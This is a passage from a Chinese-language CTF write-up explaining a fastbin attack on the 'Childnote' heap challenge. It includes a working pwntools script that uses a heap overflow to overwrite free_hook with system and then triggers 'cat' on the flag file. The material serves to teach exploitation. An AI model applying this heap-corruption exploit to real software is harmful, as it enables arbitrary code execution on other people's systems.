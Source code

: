 #### fastbin attack
現在還剩4次create，因為heap overflow的關係，fastbin attack只要2次就可以完成，不需要額外的1次去改掉fd

只要可以找到malloc_hook上面0x110範圍內有0x9X-0xFX以及0x1開頭的值，疊好ROP chain再calloc就可以順利完成攻擊

不過並沒有，0xff開頭的值超過範圍了，所以必須先edit fastbin attack拿到的chunk變出0xf0的值，再做第兩次fastbin attck來達到overlap chunk，利用heap overflow去改malloc_hook
但是兩次fastbin attack就把次數用光了，沒次數來create

不能create的話可以改成蓋free_hook，只要在free_hook上面做出overlap chunk一樣可以一路蓋到free_hook，就不需要再create1次，還不用串ROP chain

找了一下發現libc_base+0x1ed980的地方有個0x1開頭的值，這樣-1剛好變0x100，可以calloc成功
calloc成功後edit創造0x100的值再fastbin attack一次做出overlap chunk
然後改第二個chunk的edit size一路heap overflow到free_hook，把值改成system的address

最後把一個chunk的fd改成'cat /home/Childnote/flag'，再free那個chunk就可以拿到flag

實際執行起來卻沒出現，然後不死心再跑一次就噴flag了???
照理說蓋的那個區塊的值都是0應該不會出事，問jwang後，他說MTU只有1500
read太多東西會被切成多個封包，導致蓋不到free_hook

不過既然有機會成功就代表有機率不會被切開，只要在timeout之前edit幾百次就有高機率會成功，有一次蓋到free_hook就對了

調到剩五次的話就可以蓋malloc_hook不用靠賽了XD，只是想放寒假了，原諒我QQ

fastbin attack的code如下：
```python=
# start fastbin attack
# free c80 chunk to fastbin
delete(11)
# libc_base+0x1ed980-1
# use guard chunk in b90 to modify c80's fd to 0xff chunk above malloc hook
edit(9,p64(0)*12+p64(0x101)+p64(0)*14+p64(0)+p64(0x101)+p64(libc_base+0x1ed980-1))
print(f"first fastbin attack chunk address: {hex(libc_base+0x1ed980-1)}")
create(0xF0,'doge') #13
# get chunk above malloc hook
create(0xF0,'doge') #14

# edit chunk to generate 0x100
edit(14,p64(0)*10+p64(0x010000))

# start second fastbin attack to create overlap chunk
# free c80 chunk to fastbin again
delete(11)
#  use guard chunk in b90 to modify c80's fd to 0xf1 chunk inside previous fastbin attack chunk
edit(9,p64(0)*12+p64(0x101)+p64(0)*14+p64(0)+p64(0x101)+p64(libc_base+0x1ed9e0))
print(f"second fastbin attack chunk address: {hex(libc_base+0x1ed9e0)}")
create(0xF0,'doge') #15
# get chunk above malloc hook
create(0xF0,'doge') #16

# fake read size of second fastbin attack chunk at libc_base+0x1eba50+0x10
edit(14,p64(0)*10+p64(0x010000)+p64(0x114000))
# overwrite free_hook by system address
for i in range(800):
    print(f"edit {i} times")
    edit(16,p64(0)*50+p64(0)*500+p64(libc_base+0x55410))
# prepare system parameter
edit(7,p64(0)+p64(0)*14+p64(0)+p64(0x91)+b'cat /home/Childnote/flag')
# trigger free_hook to get flag
delete(10)

r.interactive()
```
